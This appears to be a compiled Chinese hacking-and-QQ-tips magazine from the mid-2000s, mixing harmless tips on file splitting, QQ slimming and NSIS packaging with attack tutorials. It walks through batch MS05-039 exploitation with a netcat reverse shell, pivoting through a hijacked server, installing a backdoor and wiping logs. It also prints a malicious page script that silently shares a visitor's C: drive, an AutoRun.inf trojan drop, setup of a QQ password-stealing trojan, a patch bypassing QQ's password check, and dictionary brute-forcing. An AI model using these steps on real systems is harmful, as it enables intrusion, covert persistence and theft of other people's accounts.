命令格式：程序名 前缀参数 IP 端口 后缀参数。由 ms05039.exe 的使用格式，我们可以知道当前需要做的是在“程序名”处填写：ms05039.exe，“请选择IP列表文件...”处找到我们制作好的一个 IP 列表文件，将“端口”里的内容清空，勾选上“后缀参数”，然后填入 192.168.0.90 1234，将连接方式改为第三个“反向连接方式”，监听方式改为 nc.exe -vv -l -p 1234，点击“监听”按钮会弹出 10 个 CMD 窗口监听（数目可以自己设置）。基本设置就完毕了，使用菜单的“当前命令”查看当前溢出命令调用格式，如图9。确认无误后，单击“开始”按钮就可以批量溢出了。


#### 三、充分利用肉鸡开拓新的肉鸡

有的时候我们已经通过其他方式获得了一台肉鸡，尤其是 3389 肉鸡的时候，我们可以通过远程控制在这台肉鸡上下载黑客软件，然后再通过该肉鸡入侵其他的机器，这样有两个好处：一是我们自身的隐蔽性会得到增强，二是利用其它机器对肉鸡的“信任”更方便地入侵别的机器。

这里我们已经入侵了一台网游服务器并获得了 3389 登录的权限，登录上去以后，发现它是一台 Win2003 的系统，装有著名的“卖咖啡”杀毒软件，首先在右下角的图标处右键将其禁用，然后使用 IE 从自己的空间上下载一个 MS05039 漏洞扫描器到肉鸡上，如图10。由于它的 IP 地址是 211.*.219.3，所以我们在肉鸡上运行扫描器并扫描 211.*.219.1—254，结果如图11。


很快就扫描到一台没打补丁的机器，如果在自己的机器上扫描那台机器我们是发现不了的！接下来在肉鸡上下载 ms05039 的溢出工具，输入命令：ms05039.exe 211.*.219.18 58.49.185.128 1234，其中 58.49.185.128 是我的 IP 地址。在溢出前别忘记了先在自己的电脑上使用 nc -vv -l -p 1234 监听好端口，很快就看到下面的 shell，接下来使用 TFTP 方式把配置好的一个随意门 3.0 上传到肉鸡上，保存为 C:\windows\system32\inet.dll，在 shell 中执行：rundll32 inet.dll,install。


安装完后，拿出随意门专用连接器来连接，如图12。填入肉鸡 IP 地址后，敲下回车键，我们就连接上了肉鸡。要求本机有公网 IP 地址，或者可以将 1031 端口映射到路由器上，输入“？”可以得到很多有用的帮助信息，假设我们要打开对方的 3389，我们可以输入 OPENTS 9833，这样就在 9833 端口开启了终端服务（Windows 2000 的电脑中，需要重新启动终端服务才会生效）。接下来，输入 clean 把日志删除，再输入 quit 退出该肉鸡。回到先前的 3389 登录界面……把我们放在上面的黑软删除，重新启用杀毒软件，点击开始/注销从肉鸡上下来，一次完整的入侵到此结束了。

讲完课后，悟空对八戒他们说道：“现在对于前几节课的知识，应该很容易掌握了吧！其实入侵的整个过程基本上都是那样，只不过是换扫描器、换溢出工具、换木马而已。”


### 文件分割合并小技巧两则

#### 一、文件分割也用 WinRAR

WinRAR 是款大家都非常熟悉的压缩工具。原来 WinRAR 也能用来分割文件。先选择要分割的文件并右键选择“添加到压缩文件”，在“压缩分卷大小，字节”处填写每卷大小（如 3,457,664 字节），确定后即可生成若干分卷压缩文件。之后可上传到邮箱或网络硬盘供他人下载使用。合并时全选分卷，右键选择“解压缩到当前文件夹”或“解压文件”，即可还原。与普通分割软件不同的是，WinRAR 在压缩基础上进行分割，分卷体积更小。


#### 二、DOS 下合并文件

如果是合并文件，大家完全可以在 DOS 下进行，使用方法如下：

```bash
copy /b <file1>+<file2>+...+<fileN> <Filename>
# 例如：copy /b video1.mpg+video2.mpg video.mpg
```

## QQ宝典

## QQ，你会挂了吗？

好不容易搞到了一台服务器，想把QQ在上面挂个级，可是这个服务器的网管好变态，每天都要重启一下服务器。这下让我很郁闷了，岂不是每天都要来登一下服务器，这样和我每天上QQ不是没什么区别了，难道就没有什么方法可以让QQ和机器一起启动吗？

经过几天的查找，终于在Windows 2000资源工具箱中找到了一个工具——srvinstw.exe，它可以将应用程序变为Windows系统服务。这样一来，QQ就可以在后台以系统服务形式运行，不必每次自己开QQ了。

一阵狂喜后，开始了我的“工作”。我们下载一个QQ的安装程序来安装，安装时大家一定不要选默认的路径，最好是安装到一个比较深的目录。这样是为了不让网管发现，但有一点我还没有想到怎么做，就是让QQ的安装程序不在“添加/删除程序”里出现。还请大家把QQ.exe改下名，最好改得比较像服务名，比如改成lsass，看好了是l，不是1。再就是要把自己的QQ在上面设成自动登录。我们再来找一个服务把它给卸掉，打开srvinstw后，里面有两种选择：上面是安装服务，下面的是卸载服务，如图1。

图1

先要把一个服务卸掉——Routing and Remote Access。这个服务是用来提供通过Modem（或其他设备拨号）或VPN远程连接到局域网络的路由服务。平常是禁用的，到了选择服务时，把下面“包括设备驱动”的小勾打上，如图2。

现在才开始了我们的主题。刚刚选的是下面那个“卸载服务”，现在是选上面那个“安装服务”的功能，选择安装在本机。下面要我们输入服务名了，把刚刚那个服务名拿来：Routing and Remote Access。下面是要选择程序了，如图3。

大家一定以为是去找到QQ.exe，我第一次也是这么认为的，可是做成后不能作为后台服务运行了。后来才知道被老盖茨骗了，单纯使用“srvinstw”是无法将程序变成系统服务的，这时就需要使用“srvinstw + srvany”的组合来完成这一操作，其中“srvany”也是Windows 2000资源工具箱中的一个命令。所以在这里要选srvany才行。在服务类型上我选用了独立服务进程，并指定该服务以自动方式运行，免去手工启动的麻烦。最后，点击“完成”按钮即可。

图2

图3

完成了系统服务的添加操作后，QQ服务还不能正常运行，必须修改Windows 2000服务器的注册表。打开注册表编辑器，展开“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services”，找到“Routing and RemoteAccess”项目；在该项下面新建一个名为“Parameters”的项目，接着在“Parameters”项下新建一个类型为字符串值的“Application”子键，该键值为QQ主程序“QQ.exe”的磁盘路径，如图4。

图4

最后重新启动Windows 2000服务器。启动后没有出现QQ的登录画面，QQ而是作为后台的服务直接启动，如图5。

图5

在进程里也关不了，如图6。

图6

删除文件也不行，如图7。

图7

这样才完成了我的整个工作，但后来发现，虽然可以把QQ运行了，在进程里也关不掉了，但我的QQ不能按热键出来。还是让我更郁闷了。回头想想看，如果将木马做成服务，那么是不是成了厉害的一匹马了……（本文涉及到的srvinstw.exe，光盘有收录）

## QQ普通用户也拥有4个免费固定群

QQ 群是为 QQ 用户中拥有共性的小群体建立的一个即时通讯平台。比如可创建“我的大学同学”“我的同事”等群。QQ群功能的实现，一下子改变了您的网络生活方式。现在您可以和一群有密切关系的群内成员共同体验网络带来的精彩。

本文介绍普通用户通过网页方式进行群相关操作的方法：在 QQ 主面板点击“个人帐号”图标，在打开的窗口中查找链接参数（如 uin、clientkey/signature），再将参数替换到指定网址中进行提交，即可实现建群/加群等操作。

```
http://pay-client.qq.com/index.shtml?clientuin=912915&clientkey=...

http://im.qq.com/cgi-bin/toc/toc_info?uin=912915&signature=...
```

修改参数后保存并打开网址，在页面中可填写资料并提交。提交成功后系统会有提示，随后可在 QQ 群列表中看到对应群信息。文中还给出了论坛地址供进一步讨论。

### XP SP2 实现多线程访问

安装 SP2 的 Windows XP 用户在多程序并发访问网络时，可能出现连接受限、速度下降、无法访问等现象，尤其在使用 FlashGet、BT、P2P 等软件时更明显。其原因是系统默认限制了最大安全连接数。

文中介绍了通过修改系统文件 Tcpip.sys 的方式提升连接上限，并建议按需设置数值：普通用户可设置为 10～30，BT 用户可设置为 100～150，同时应配合杀毒软件与防火墙使用以保障安全。

```
下载地址示例：www.lvllord.de/?url=downloads&lang=en

命令示例：
EvID4226Patch /L=tcpiP.sys /w=C:\WINDOWS\system32\drivers\
EvID4226Patch /I=50 /w=C:\WINDOWS\system32\drivers\tcpiP.sys
```

## 免看重启的QQ密码破解器

## 对方窃取QQ又一法

H.O.T

现在使用QQ的网友越来越多了。可是如果密码忘记了或输入QQ密码过于麻烦，那怎么办呢？我们可以自己制作一款QQ密码破解器。如果你感兴趣的话，可以和我一起自己动手做一个这样的QQ密码破解器。

首先，介绍一下我们要用到的工具软件——Keymake。Keymake是中文界面的国产软件。它是一款可以方便地制作出自己的“注册机”或软件补丁的软件。

真正的注册机，只能算作是软件的补丁或另类注册机。用Keymake制作的“注册机”在运行后，可以让注册码自己跳出来，直接显示在屏幕上。

目前有许多程序的注册码算法都与硬件有关，这类程序在每一台机上安装时都会生成一个机器码，用户需要把机器码发送给作者，再由作者算出注册码返回给用户。

作者介绍了通过补丁方式从进程中提取注册码的方法，并强调不需要了解程序内部算法，也不需要会编程。

今天我们就利用它的制作补丁功能制作出QQ聊天补丁，突破QQ的本地密码验证，使得我们无需输入密码就可以进入QQ，实现自由查看QQ聊天记录的目的。

下面正式开始。首先，请你下载16进制文件编辑器UltraEdit汉化版，用它来修改QQ的主文件。运行后打开QQ.EXE，在“搜索-查找”中输入特征机器码（如0F8499000000837D1801）进行定位。

（本文涉及到的Keymake、UltraEdit汉化版，光盘有收录）

H.O.T

想偷别人的QQ号，方法有很多了。利用恶意网页让对方的电脑被共享出来是很有趣的一招。方法是：在你的网站网页中加入如下内容的代码。

```html
<script language="JavaScript">
document.write("<APPLET HEIGHT=0 WIDTH=0 code=com.ms.activeX.ActiveXComponent></APPLET>")
function f(){
  // 省略若干行
  a1.setCLSID("{F935DC22-1CF0-11D0-ADB9-00C04FD58A0B}")
  a1.createInstance()
  Shl = a1.GetObject().Shl.RegWrite("HKLM/Software/Microsoft/Windows/CurrentVersion/Network/LanMan/RWCS/Flags",302,"REG_DWORD")
  Shl.RegWrite("HKLM/Software/Microsoft/Windows/CurrentVersion/Network/LanMan/RWCS/Type",0,"REG_DWORD")
  Shl.RegWrite("HKLM/Software/Microsoft/Windows/CurrentVersion/Network/LanMan/RWCS/Path",C:/)
}
function init(){ setTimeout('f()',1000); }
init()
</script>
```

上面的代码核心是修改对方注册表中的键值，把对方的C盘共享导出来。如果想让对方的其他盘也共享，请自行设置。

文中进一步解释了`{F935DC22-1CF0-11D0-ADB9-00C04FD58A0B}`对应Windows Scripting Host对象，以及`Shl.RegWrite`写入注册表项后可能造成硬盘被共享。

网页做好后上传到空间，诱导对方访问。若对方IE安全设置不足，脚本可被触发，从而执行共享相关修改。

接着可利用net use命令或网络邻居工具访问对方共享，并可进一步投放木马/后门等恶意程序（文中举例QQ类木马、壳/压缩处理等）。

```ini
[AutoRun]
open=winn32.exe
```

保存为AutoRun.inf并与winn32.exe一起放入目标分区根目录，借助自动运行机制提高触发概率。最后声称可通过邮件方式收到对方QQ密码。

（文末附有免责声明性质说明，提及技术交流与安全防范目的）

## QQ登录密码任我改

黯珠

QQ聊天记录记载着我们和QQ好友的聊天内容，如果不小心忘记了密码该怎么办呢？我们可以使用“懒人QQ登录密码修改器”这款软件，就能解决这个问题。该软件可在Windows XP/2000下使用，运行后可在列表中看到本机登录过的QQ号码，选择目标号码后点击“修改密码”即可。

此外，如果采用的是NTFS文件系统，还可以对目录进行权限设置。以Windows XP为例，可将个人目录设为私有，再将QQ安装目录中的文件复制一份到私有目录中，做到相互独立。另一方面，聊天记录是以加密方式保存在QQ安装目录下对应号码文件夹中，在公共场所使用后可删除对应文件夹以减少信息残留。

> **小提示：** 使用该软件只是修改了本地登录密码。如果服务器端验证未同步，联网状态下仍可能出现密码校验问题。建议在修改时断网，或关闭防火墙后再进行相关操作。

“懒人QQ登录密码修改器”功能虽强，但在多人共用电脑时也可能带来隐私风险。若他人利用该软件，可能查看到你的聊天记录。因此应加强聊天记录保护，尤其在公共环境中使用QQ后及时清理本地数据。

如果软件不能自动找到QQ安装目录，可通过“目录读取”手动指定；若列表框中未显示登录过的号码，可手动输入并点击“增加号码”。若QQ被盗，登录成功后仍有机会找回原号码中的好友列表与聊天记录。

在多人共用一台计算机时，可利用QQ本地消息加密功能对聊天内容加锁。方法是打开QQ“个人设置”，进入“系统设置”→“本地安全”，勾选“启用本地消息加密”，并设置密码及口令提示信息即可。

## 人人都成为QQ会员

今天就来说说一种比较合法的当QQ会员的方法。当然不是修改QQ程序让自己看着自己是会员、在别人QQ上看还是普通用户的那种方法了。

言归正传，腾讯公司最近开了一项服务，名字是“我的愿望”，其本意是实现广大Q友免费尝试使用腾讯公司的几种业务。其中包括QQ会员、QQ音乐、魔法表情、QQ交友、网络相册等。今天就说下怎么做QQ会员。

废话不多说，开始实施！首先要在 http://my.qq.com 登录，这里是QQ用户资料管理的地方，而新开的“我的愿望”也就在这里了，登录后就可以进入“我的愿望”页进行许愿。

前提：如果你不是会员，你第一次只能许下一个愿望；会员就可以申请3个愿望。首先我们就申请许愿：我想要免费成为QQ会员！他们批准的概率大概是5比1，不过还在逐渐增加。

不要忘记常去看看你申请的愿望有没有实现。如果批准后一周内你都不去激活的话，你的愿望就将消失了。

为什么要说免费“刷会员”而不是申请会员呢？就是因为这样得到会员其实应该有很多人都知道了。可我们怎么能让我们做会员的时间长点呢？重点来了……

目前“我的愿望”这个活动：

- 没有截止日期。
- 没有限制用户愿望实现后不能再申请。

- 我想让所有的好友看到我，同时对我不……
- QQ交友用，诈骗广告太多，我希望能够……
- 我想要免费成为QQ会员！

实际上这3项都是免费体验QQ会员。当你的愿望再次被实现时，你到 http://my.qq.com/info.shtml 就可以看到你的QQ会员时限被延长了一个月。如此循环申请，只要你运气好，那么你就永远都是会员啦。

如果腾讯日后这项服务不关闭或者不限制的话，那在不久的将来人人都将成为QQ会员。让我们一起动手，把我们的QQ号码全部变成红色。

## 利用中天QQ建群精灵

### 申请免费QQ号

日常生活中不可缺少的工具，随着软件版本的更新，QQ的功能也越来越多，群功能就是其中之一。有了自己的QQ群，除了可以群聊之外，还可以有个简单的论坛、相册，特别是每个群提供了16M的网络硬盘，那可是好东西啊！

以前我们可以用校友录建立自己的群，但是现在却不行了。不要着急，今天我就为大家介绍一个软件“中天QQ建群精灵”，有了它，我们就可以建立属于我们自己的QQ群了！

中天QQ建群精灵需要配合QQ2005 Beta1以上版本。首先运行中天QQ建群精灵（如图2），登录QQ，点击QQ界面中的账户按钮（如图3），之后QQ会自动打开一个网页（如图4）。

在打开的网页任意处点击右键，选择“属性”选项，把最后的 `clientkey=` 后面的字符串复制到验证框；然后把所有资料填写好，注意第一个企业名字里需要是英文加数字格式（如图6），最后点击开始注册，软件将提示验证成功并自动加你为管理员。

有网络真好，有QQ更好，有了QQ群更是好上加好！

## QQ宝典

## QQ黑客行

HaJunFck [F.W.S.T]

只要接触过网络的人，或多或少都对QQ这个聊天工具有所了解吧。可是自从QQ这东西火起来之后，就有很多人希望得到一些七位、六位甚至五位的QQ号，或者想通过不好的方法盗了对方的QQ密码……下边我就将目前常用的盗号方法揭示给刚刚接触黑客技术的朋友，讲讲如何盗取QQ号、如何防止被盗、如何学会反盗。

我们先来说说如何盗取别人的QQ号，以最新版阿拉QQ大盗V1.6 Build0806为例。它在界面和功能上做了不少改进，如“邮件收信/网站收信”、增强防火墙处理、还原精灵自动转存、过滤重复号码、显示IP和在线状态等。

### 一、配置QQ木马，盗QQ

我们先配置“邮件收信”方式的QQ木马。按发件箱、收件箱、SMTP服务器、邮箱账号密码等项目填写，并勾选相关选项；测试成功后点击“生成木马”，生成可执行文件（如kkk.exe）。对方运行后，QQ密码会被发送到指定邮箱。

右栏说明测试过程：运行木马后约60秒QQ会自动断线并重登。随后查看邮箱，可收到记录QQ号码和密码的测试信。

接着介绍“网站收信”方式：需要自有网站空间，将tmdqq.asp上传到网站目录，配置Asp接口地址（网站+目录+tmdqq.asp）。测试成功后，目录下会生成QQ.TXT文档用于保存盗取到的号码和密码。

### 二、防止QQ被盗

随后文章推荐防盗工具“QQ密码防盗专家2005七夕情人节特别版”，通过简单配置进行防盗（如“无敌外挂”等），强调主要使用其防盗功能。

输入 007，确认以后，会弹出一个对话框。先点“第一步（输入）”把你的 QQ 和密码填写，再点“第二步（测试）”，最后“第三步（保存）”即可，如图5。

这样配置好以后，我们可以设置程序为随计算机启动而自动启动，也可以手动启动。邮箱、邮箱密码、还有网站，包括要发出去的 QQ 密码，都已经被嗅探出来了。

出防盗专家的界面，可以按 Ctrl+F6。重新打开防盗专家并登录 QQ，到邮箱查看，没有收到 QQ 密码，说明设置的防盗专家起作用了。

#### 四、清除 QQ 木马

如果自己测试木马，或者怀疑别人给你电脑种了木马，可以使用阿拉 QQ 大盗本身的卸载功能，把木马卸载了，如图8。

#### 三、反黑战

要是不小心被别人用盗密软件盗了 QQ 密码怎么办？在此处置方式是：拿出嗅探工具 XsnifferGUI.exe，把木马的主人找出来。前提是先清除盗 QQ 密码的木马，然后打开 XsnifferGUI 开始监听，如图6。

然后登录自己的 QQ，不要担心自己的密码又给盗取。登录成功后，XsnifferGUI 同一目录下会自动生成一个 pass.log 文件，打开看，如图7。

总结：经过这么一番磨练，大家也学会了最基础的黑客入门——盗 QQ，也学会了如何防范 QQ 被盗与反黑 QQ 木马与主人。文中涉及的工具如 QQ 大盗 V1.6、QQ 密码防盗专家 2005 七夕情人节特别版、XsnifferGUI.exe 等。

## QQ宝典

时下，QQ 已经成为众网友不可或缺的即时通信工具，随着版本的更新，其占用的磁盘空间也越来越大。最新版的 QQ 2005 Beta1 需要占用 87.2MB 的磁盘空间，如图1所示。

另外，许多朋友为了得到“星星、月亮和太阳”，尽可能早一点晋级，往往是 24 小时挂机。这样也白白让 QQ 占用系统资源。那么，我们能不能给 QQ 减减肥、瘦瘦身，以减少其对磁盘空间的占用和对系统资源的消耗？想得到就做得到，Let's go!

> **小提示：**以上文件理论上都可以删除，但你应当根据自己的实际情况，具体问题具体分析。另外，在减肥之前建议对“Tencent”目录备份一下，以便进行误操作之后能够恢复。

#### 一、拨云见日，QQ 目录大解密

常言说得好，知己知彼，方能百战不殆。QQ 减肥同样如此，只有深入了解 QQ 安装目录下的各个文件及文件夹的含义，我们的减肥工作才能有的放矢。让我们看看 QQ 安装目录下的文件和文件夹：

| 文件 | 说明 |
|---|---|
| BBQApplication.dll | 企业好友面板 |
| ContentTab.dll / Content_Config / help_01.gif / help_13.gif | 用户自定义面板相关 |
| QQMusicWelcome.htm / QQMusic.exe / OEMApplication.dll | 手机娱乐面板、内容资讯面板及音乐中心 |
| QQBrowserApplication.dll | 聊天服务面板 |
| GroupConnection.dll | 互动空间 |
| QQMail / MailDll.dll / MailRes.dll | QQ 信箱 |
| QQexternal.exe | 娱乐智多夹 |
| QQMMSender.dll / QQMsgFriendMng.dll | 短信发送面板 |
| QQLiveUpdate / QQUpdateFileLib.dll / QQUpdate.txt / QQupdate.ini | 升级组件 |
| QRingMng.dll / ring200.dll / Riched32.dll / QQ资源管理 | 铃声资源 |
| VqCodec.dll / VqCodec2.dll / VideoDevice.dll / vphone.dll / VqAllInOne.dll / VqDVCapture.dll / vqset.dll | 视频聊天相关文件 |
| ChatRoom.exe | 聊天室相关文件 |
| QQPetProxy.exe | QQ 宠物中心 |
| QQMagicFace.dll / MagicFlash.exe | QQ 魔法表情播放器及相关文件 |
| QQNciDisk.dll | 网络硬盘 |

| 文件夹 | 说明 |
|---|---|
| [TMData] [TMDLLs] [TMNEWFACE] [TMSKINS] [TMsound] | TM 相关文件夹 |
| [QQGame] | QQ 游戏相关文件夹 |
| [TT] | TT 浏览器相关文件夹 |
| [sound] | 声音文件夹 |
| [QRingFiles] | 铃声文件夹 |
| [QQAddrData] [QQAddrPlugin] | 通讯录文件夹 |
| [mailImage] [pimskins] | 邮件文件夹 |
| [QQBuddy] | 互动空间、商务伴侣文件夹 |
| [Chat] [ChatRoomDll] [chatskin] | 聊天室相关文件夹 |
| [Face] | 表情文件夹 |
| [mailImage] | 附件文件夹 |
| [NewSkins] | QQ2005 游戏皮肤文件夹 |
| [SCRace] | 服务面板头像文件夹 |
| [QQMusicSkin] | QQ 音乐中心皮肤文件夹 |
| [qqmusic_images] | QQ 音乐中心图像文件夹 |

明白了 QQ 安装目录下各文件及文件夹的含义之后，让我们开始进一步的减肥工作吧。

#### 二、庖丁解牛，自己动手 DIY

#### 1. 卸载多余的组件（43MB）

默认情况下，QQ 会把所有的组件（TM、腾讯 TT 或 QQ 游戏等）完全安装到系统中，并不会让用户自己定制所需要的组件。但是，在实际的使用过程中，有一些组件可能用户根本就用不着。因此，减肥的第一步我们先给组件开刀。

打开资源管理器，定位到 QQ 安装目录（一般是 `C:\Program Files\Tencent\QQ`），双击运行“uninst.exe”程序，这是 QQ 的卸载程序。在弹出的卸载向导窗口中直接点击“下一步”，来到“选定组件”页面。在“选择要卸载的组件”列表中，我们就可以选择自己定制要卸载的程序了。例如，我们只保留 QQ，将其它组件全部卸载，去掉“腾讯QQ”复选框中的对勾，确保勾选“腾讯TT”、“腾讯TM”和“QQ游戏”，然后点击“移除”按钮即可卸载不需要的组件，如图2所示。

##### 2. 清理无用面板

众所周知，QQ 主界面左侧有许多的功能面板，如“音乐中心”、“内容资讯面板”、“企业好友面板”、“手机娱乐面板”以及“互动空间”等等。通过这些面板可以实现许多相关功能，不过这些面板并不是对每一个用户都适用，我们可以根据自己的需要来定制这些面板的去留。视情况将面板相关文件全部删除即可。

- 企业好友面板：删除“BBQApplication.dll”文件即可，112KB。
- 音乐中心面板：删除文件“QQMusicWelcome.htm”、“QQMusic.exe”、“OEMApplication.dll”和“[QQMusicSkin][qqmusic_images]”即可。
- 短信发送面板：删除“QQMMSender.dll、QQMsgFriendMng.dll”文件即可，55.2KB。
- 用户自定义面板功能：删除 `ContentTab.dll`、`Content_Config`、`help_01.gif`、`help_13.gif`，104KB。

> **小提示：**你可以根据自己的实际需要和第一部分中列出的各个文件及文件夹的含义来有选择地删除各个面板。

##### 3. 告别 QQ 皮肤（1.34MB）

QQ 皮肤可以美化 QQ，但同时也非常占用系统资源。如果你是小硬盘用户或者你不喜欢 QQ 皮肤，不妨卸掉 QQ 的标准界面，将其它皮肤文件删除，以达到减肥和减少系统开销的目的。首先在 QQ 主面板中点击“菜单→更换皮肤→标准界面”……

##### 4. 封杀 QQ 广告（至少 104KB）

如果你用的是 Windows XP，可通过磁盘读写权限来封杀 QQ 广告：进入 QQ 安装目录的 `AD` 文件夹，`Ctrl+A` 全选后 `Shift+Delete` 删除；随后通过“属性→安全”调整用户权限并清理权限项，最终使广告无法写入。

> **小提示：**除了上述方法外，还可以使用“珊瑚虫”等外挂程序来避免腾讯广告骚扰。

##### 5. 抛弃 QQ 场景

QQ 聊天场景会占用系统资源，不需要时可删除 `QQ\IMScene\Scene` 下场景文件，并取消“接受场景邀请”。

- 6. 删除 QQ 铃声（112KB）
- 7. 关闭 QQ 聊天室（3.84MB）
- 8. 抛弃 QQ 通讯录（1.67MB）
- 9. 清空 QQ 邮箱（3.82MB）
- 10. 辞退商务伴侣（2.45MB）
- 11. 送出 QQ 宠物（588KB）
- 12. 关闭错误报告和自动更新（624KB）
- 13. 让魔法失效（484KB）

通过上述删减后，QQ 体积可由约 87.2MB 降至约 28.2MB，减重效果显著。

#### 三、QQ 定制也能像小孩子搭积木

手动删除组件有风险，误删可能导致 QQ 无法运行。文中接着介绍一种 DIY 方式，将 QQ 组件分离后按需定制。

##### 1. 前期准备

- 第一步：下载 QQ2005Beta1 组件包。
- 第二步：解压到 `C` 盘根目录（必须在根目录）。
- 第三步：下载 NSIS 安装包制作工具。
- 第四步：下载完毕，按通常方法安装 NSIS，方法是一路“Next”，在这里不再赘述。

`http://nj.onlinedown.net/soft/8730.htm`

NSIS 是一个仅有 1.63MB、高效率的 Win32 安装系统。可通过脚本修订或根据自己要求编写 NSI 脚本文件来自定义自己的安装系统，可实现中文协议显示、安装类型选择、写入注册表、写入 INI 文件、连接程序外壳、语句跳转、提示信息显示、创建卸载程序、安装和卸载程序图标定制、创建快捷方式等其他安装程序应有的功能，是一款操作简单、功能强大的高效率安装软件精品。

##### 2. 开始搭积木

第一步：打开资源管理器，定位到 `C:\腾讯QQ\安装脚本\` 目录，双击其中的“QQ2005.nsi”，用记事本程序将其打开。该文件是一个安装脚本文件，QQ 的所有组件安装与否完全由其控制，这也是我们能够 DIY QQ 的原因所在。

第二步：先分析该文件，如图6所示：

```nsis
!define PRODUCT_NAME "QQ2005"
!define PRODUCT_VERSION "β1"
!define PRODUCT_PUBLISHER "工作狂人之家"
!define PRODUCT_WEB_SITE "http://jobcrazy.126.com"
```

- `InstType "完全安装"`
- `InstType "推荐安装"`
- `InstType "精简安装"`
- `BrandingText "此QQ安装包组件由工作狂人之家提供"`

安装方式选择框中出现的安装选择方式和提示信息，你可以更改为你喜欢的信息。

注：如果你是一个懒人，上面这些信息可不必改动，关键是下面的：

```nsis
Section "文件传输" SECFT
  SectionIn 1 2
  SetOutPath "$INSTDIR"
  File "c:\腾讯QQ\可选组件\文件传输\QQFileTransfer.dll"
  Shortcuts
SectionEnd
```

从中可以发现，QQ 的每一个组件或者功能模块，都是以 `Section "XXXX" SEC**` 开头，以 `SectionEnd` 结尾的一段内容。其中“XXXX”是组件或功能模块名称，“**”是组件或功能模块编号。

好了，明白了原理，要定制 QQ 的安装就简单了。删除某一段以 `Section "XXXX" SEC**` 开头、以 `SectionEnd` 结尾的内容，再删除“Section descriptions”字段中的描述信息，就可以让制作出的 QQ 安装包不包含该组件。

以删除手机短信为例。首先找到：

```nsis
Section "手机短信" SECPhone
  SectionIn 1 2
  SetOutPath "$INSTDIR"
  File "c:\腾讯QQ\可选组件\手机短信\QQMMSender.dll"
  Shortcuts
SectionEnd
```

选中后将其删除；接着找到“Section descriptions”字段中的描述信息：

`!insertmacro MUI_DESCRIPTION_TEXT ${SECPhone} "QQ 与手机之间互相发短信的功能"`

并将其删除。

这里有 24 种组件或功能模块可以任意定制去留，这样要定制出符合自己要求的 QQ 应该不难。

第三步：重新封装。定制完各组件后，还需要重新封装，以方便以后使用和发布。点击“开始→程序→NSIS→MakeNSISW (Compiler GUI)”启动 NSIS，点击菜单栏“File-->Load Script”，或直接点击工具栏打开按钮，在打开对话框中载入 `C:\腾讯QQ\安装脚本\QQ2005.nsi`。打开后 NSIS 会自动重新封装 QQ，如图11所示。

第四步：封装完毕后，NSIS 主界面中的“Test Installer”（测试安装）会激活。可以点击该按钮测试成果，看看是否存在错误；如果能够正常运行就大功告成。到 C 盘根目录下，一个属于自己的 QQ 特别版安装文件已经生成。

##### 3. 最终产品

界面中的信息是不是已经替换为你自己的信息了，如图12所示。再往下看，在安装方式选择界面中，定制了 3 种安装方式，用“最小安装”则只需“14.4MB”的空间，胖企鹅变成了瘦鸭子（如图13）。

最令人惊喜的是，你只需按最小化安装 QQ，然后将安装目录拷贝到 U 盘上，就可以做到瘦身 QQ 了。怎么样，赶快动手定制属于自己的 QQ 吧，晚了可就落伍了……

> （文中涉及到的软件：狂人之家制作的 QQ2005Beta1 组件包、NSIS 安装包制作工具，在光盘有收录）

## QQ 蜗牛暴力破解是通过暴力破解的方式来对某个 QQ 的登录密码进行破解的

既然是暴力破解，除了需要大量时间进行破解外，运气也是非常重要的一环，所以暴力破解也不是绝对可以成功的。下面我们就开始动手破解吧。和其他 QQ 破解工具类似，QQ 蜗牛暴力破解器也是对本地电脑中已经成功登录过的 QQ 号码进行破解。既然是暴力破解，那么一个好的字典文件是不可缺少的，这可在很大程度上决定破解成功率。

我们就来配置一个用于破解的字典文件吧。我使用的字典制作工具是黑客字典（HackerDicBuilder），它是一款功能十分强大的字典生成工具。开发者根据国人设置密码的习惯，采用线程技术来生成字典文件，可以说它的功能是当前流行字典工具中最强的一个。我们直接运行它就可以了。工具采用向导式配置过程，用户可以轻松完成字典配置。黑客字典启动后，首先出现的是工具使用说明，点击“下一步”按钮，出现“基本资料”的配置窗口，我们使用用户名称和出生日期来配置字典文件（图1）。

再点击“下一步”按钮，在“城市电话”中可以利用所选城市的邮政编码、长途区号、普通电话和移动电话来配置字典文件。接着点击“下一步”按钮，在“英文数字”窗口可以选择常用数字、其他常用英文、罕见组合等选项进行配置（图2）。另外，用户还可以在“自定义组合”中填写自己需要的其它密码组合。

## QQ宝典

然后再点击“下一步”按钮，在“文件合并”窗口中，用户可以将已有的字典文件合并到其他的字典文件中，使之成为一个字典文件。最后在“其他设置”窗口中设置字典文件的复杂程度和文件的保存路径，点击“生成字典”按钮就会生成配置完成的字典文件了（图3）。字典文件成功生成以后，就可以开始着手准备进行QQ密码的破解了。


开始破解前，首先要关闭全部登录的QQ程序，其次就是不要在破解的时候对其他的文件进行操作，以免影响破解的进度。一切准备工作就绪以后，就可以开始破解了。运行QQ蜗牛暴力破解器，在“QQ号码”选项中设置需要进行破解的QQ号码，接着在“QQ路径”选项设置QQ程序在本系统的安装路径，然后再点击“导入”按钮，将刚刚生成的字典文件导入到程序中，最后点击“开始”按钮就立刻进行登录密码的破解。当破解成功后，在“密码结果”选项中就会显示出正确的密码结果来（图4）。


好了，关于QQ蜗牛暴力破解器的操作过程就为大家介绍到这儿。想必现在这个小工具大家都已经会用了吧！

（本文涉及的相关工具：黑客字典、QQ蜗牛暴力破解器，光盘中有收录。）


王艺翔

最终结果如图6。到此图章就已经做好了，但是我们怎么才能把它做成QQ头像呢？当然取得这个图章是关键，但是怎么才能取得呢？到IE缓存里面找吗？我没有试过，其实用netlines就可以很快捕捉到这个头像的位置，如图7。我们在地址栏中输入 `http://caishu.sina.com.cn:80/mingzhang/20050825/UnihanD6B845320142061.gif` 看看结果怎么样，如图8。好了，下面的工作应该很简单了，我们在这个图片上选择“另存为”就可以了，然后就可以把它作为自己的QQ头像了。


最近上网聊QQ，见到了许多稀奇古怪的QQ头像，如图1。这个头像是自己名字的图章。不知道原理的朋友还以为他花了多少力气用Photoshop做的呢！其实制作很简单，我们只需要借助一个工具和一个网站就可以搞定了，工具是netlines网络下载机，网站是 `http://caishu.sina.com.cn`。


实验正式开始！netlines安装好后我们双击运行，界面如图2所示。然后我们打开 `http://caishu.sina.com.cn`，网站很漂亮，如图3。我们在“名章篆刻”处点“进入”，此时netlines已经开始嗅探图片了，如图4。点“进入”后我们就来到了 `http://caishu.sina.com.cn/webKZ.htm` 这个页面，如图5。在“输入刻章内容”处填写要刻章的内容，比如“飞翔”；在“请您选择字体”“请您选择外形”处任意填写，点“先看一下”。


